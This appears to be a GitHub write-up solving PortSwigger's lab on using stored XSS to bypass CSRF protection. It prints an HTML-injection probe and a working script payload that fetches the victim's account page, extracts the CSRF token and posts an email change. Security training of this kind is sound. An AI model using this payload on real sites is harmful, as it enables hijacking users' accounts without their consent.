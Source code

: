 ## Welcome, my friend. Today we will start the [30. XSS lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-perform-csrf) in ```portswigger```
### Let's play this lab:

![image](https://github.com/user-attachments/assets/ff5112be-900f-4533-84ff-e00dabf0e088)

#### First, we navigate inside the browser

![image](https://github.com/user-attachments/assets/7dddbfe3-5675-47e8-b286-e1fc9ea955a4)


### Here there html injection, Let's enter malicios code to discover XSS vulnerability:

```
<><img src='x' onerror=alert(404)>
```

![image](https://github.com/user-attachments/assets/81d7274c-e3ce-4d9a-9c63-75693f70c985)


### But this lab doesn't solved. we will using ```Collaborator``` in burp suite:

```
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```

![image](https://github.com/user-attachments/assets/5ff4eb8e-5549-4f1e-b2ba-f6d5da83eb1a)

![image](https://github.com/user-attachments/assets/1a785931-4c11-4d7a-85c0-22dc854b15ae)

-------

### Done! Congratulations, friends❤️‍🔥


<p align="center">
<img src="https://github.com/user-attachments/assets/c25cae8d-1ac9-4042-9bb2-8e28b6944ba2" >
</p>

